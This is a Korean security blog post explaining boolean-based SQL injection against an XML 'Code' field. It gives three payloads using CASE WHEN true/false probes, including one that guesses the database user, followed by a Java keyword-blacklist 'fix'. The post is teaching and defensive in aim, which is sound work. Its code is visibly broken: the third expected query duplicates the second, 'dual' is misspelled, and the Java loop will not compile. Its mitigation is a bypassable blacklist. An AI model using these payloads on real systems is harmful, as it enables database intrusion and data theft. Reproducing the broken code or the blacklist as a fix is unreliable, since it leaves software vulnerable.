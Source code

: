```yaml
---
title:  "보안(1) SQL Injection 불리언 분기 공격"
excerpt: "보안(1) SQL Injection 불리언 분기 공격 입니다."

categories:
  - security
tags:
  - [보안, security, COMMON]

toc: true
toc_sticky: true

last_modified_at: 2025-08-17T14:55:00-14:55:00
---
```


## 개요
> ❗<span style='color:green'>***참 거짓을 이용한 반응으로 공격***</span>  
> 💡 *<span style='color:blue'>**해당 내용으로 DB정보까지 탈취 가능**</span> 


## 내용
### 전문
```xml
<!-- 기존 전송되는 기본 XML 전문 -->
<Code>2019</Code>

```

```sql
/* 예상 쿼리 */
SELECT * 
FROM some_table 
WHERE code = '2019';

```
  
Code 라는 태그를 통해 타서버에 값을 전달하며 통신하고 있다.  
{: .notice--info}  
    
   

### 공격코드 1
```js
// 참거짓 반응으로 인젝션 : 비정상 동작을 감지가능.
data = data.replace("<Code>2019", "<Code>2019'||(case when 1=1 then '1' else '' END)||'");

```

```sql
/* 예상쿼리 */
SELECT * 
FROM some_table 
WHERE code = '2019' || (case when 1=1 then '1' else '' END) || '';

```
   
  
### 공격코드 2
```js
// 참거짓 반응으로 인젝션 : 정상 동작을 감지가능. (일부러 틀리게 작성했으므로)
data = data.replace("<Code>2019", "<Code>2019'||(case when 1=2 then '1' else '' END)||'");

```

```sql
/* 예상쿼리 */
SELECT * 
FROM some_table 
WHERE code = '2019' || (case when 1=2 then '1' else '' END) || '';

```


### 공격코드 3
```js
// 참거짓 반응으로 인젝션 : 1,2 번을 통해 공격가능함을 인지하고 DB사용자조회로 공격 후 정보를 예상 
data = data.replace("<Code>2019", "<Code>2019'||(case when 'scott'=(select user from daul) then '1' else '' END)||'");

```

```sql
/* 예상쿼리 */
SELECT * 
FROM some_table 
WHERE code = '2019' || (case when 1=2 then '1' else '' END) || '';

```
  
  
  
## 조치

```java
//중략..
String[] filterSQL = {"DROP","TRUNCATE","DELETE","UPDATE","INSERT","AND","OR","||","&&","\""};

@RequestMapping(value = "/테스트", method = Request.POST, produces = "text/plain;charset=UTF-8")
public @ResponseBody String 테스트(HttpServletRequest request, HttpServletResponse response) throws Exception

if(특정전문케이스 == true) 
{
    String responseXML = data;

    String regex = "<Code\\s*(.*?)\\s*</Code>"; // <Code></Code> 내부를 정규식.
    Pattern pattern = Pattern.compile(regex);

    Matcher matcher = pattern.matcher(responseXML);
    while(matcher.find()) 
    {
      String findValue = matcher.group(1).toUpperCase();

      for(int 1=0; i < filterSQL.size(); i++) 
      {
        if(findValue.contains(filterSQL[i])) {
          throw new BusinessLogicSQLException();
        }
      }
      
    }
}

//이하 정상로직

```


## 정리
> ❗<span style='color:green'>***SQL Injection의 고전적인 형태***</span>   
> 💡 *<span style='color:blue'>**이 공격은 || (CASE WHEN 1=1 THEN '1' ELSE '' END) || 를 붙여서 쿼리 문자열을 조작함.**</span>   
> 💡 *<span style='color:blue'>**결과적으로 WHERE 절 조건을 의도적으로 true/false로 바꿀 수 있다.**</span>   
> 💡 *<span style='color:blue'>**이 방식은 SQL Injection의 고전적인 형태로,  DB 종류(Oracle, PostgreSQL 등 || 문자열 연산 지원 DB)에서 특히 위험.**</span>   





